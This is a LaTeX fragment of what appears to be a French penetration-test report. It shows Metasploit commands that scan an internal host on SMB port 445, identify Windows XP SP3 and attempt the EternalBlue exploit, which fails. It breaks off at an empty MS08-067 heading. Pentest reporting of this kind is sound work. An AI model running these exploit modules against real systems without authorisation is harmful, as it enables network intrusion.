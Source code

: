 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\textcolor{success}{\checkmark} \textbf{Port 445 (SMB) Détecté} sur Windows XP, via le pivot DMZ.

\subsection{Identification de l'OS Cible}

\begin{lstlisting}[caption=Detection de l'OS Windows XP via SMB]
		[msf]> use auxiliary/scanner/smb/smb_version
		[msf] auxiliary(scanner/smb/smb_version)> set RHOSTS 192.168.20.50
		[msf] auxiliary(scanner/smb/smb_version)> run
		
		[*] 192.168.20.50:445 - SMB Detected (versions:1)
		[+] 192.168.20.50:445 - Host is running Windows XP SP3 (language:English)
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Cible Identifiée :} Windows XP SP3, système légendaire pour ses vulnérabilités.

\subsection{Tentatives d'Exploitation}

Plusieurs exploits historiques ont été tentés :

\subsubsection{MS17-010 (EternalBlue)}

\begin{lstlisting}[style=logstyle,caption=Tentative exploit MS17-010 (EternalBlue) — Resultat : Echec]
		[msf]> use exploit/windows/smb/ms17_010_eternalblue
		[msf] exploit(windows/smb/ms17_010_eternalblue)> set RHOSTS 192.168.20.50
		[msf] exploit(windows/smb/ms17_010_eternalblue)> exploit
		
		[*] 192.168.20.50:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
		[-] 192.168.20.50:445 - The target is not vulnerable.
	\end{lstlisting}

\textbf{Raison :} EternalBlue cible SMBv1 sur Vista+, pas Windows XP.

\subsubsection{MS08-067 (NetAPI)}
\end{document}

